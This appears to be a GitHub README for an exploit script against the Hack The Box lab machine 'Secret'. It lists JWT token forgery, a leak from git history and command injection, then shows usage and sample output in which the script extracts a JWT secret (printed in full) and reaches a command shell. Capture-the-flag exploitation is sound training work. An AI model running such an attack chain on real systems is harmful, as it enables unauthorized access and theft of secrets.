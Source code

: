 # Overview
---
- JWT token forge
- Information leak from git repository
- Express.js code review
- Command injection

# Usage
---
```bash
$ ./exploit.py <IP>
```
Also you can run the script `run.sh` to build and run a docker container to get a point of entry of the HTB machine "Secret".
```bash
$ ./run.sh <IP>
[*] Add target hostname into /etc/hosts
[*] Download the git repository from http://secret.htb/download/files.zip
[*] unzip the downlaod file "files.zip"
[*] Get the JWT token secret from the git commit history
[*] JWT token secret: gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
secret.htb> id
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
secret.htb>
```

# Tags
---
#JWT, #git, #Express
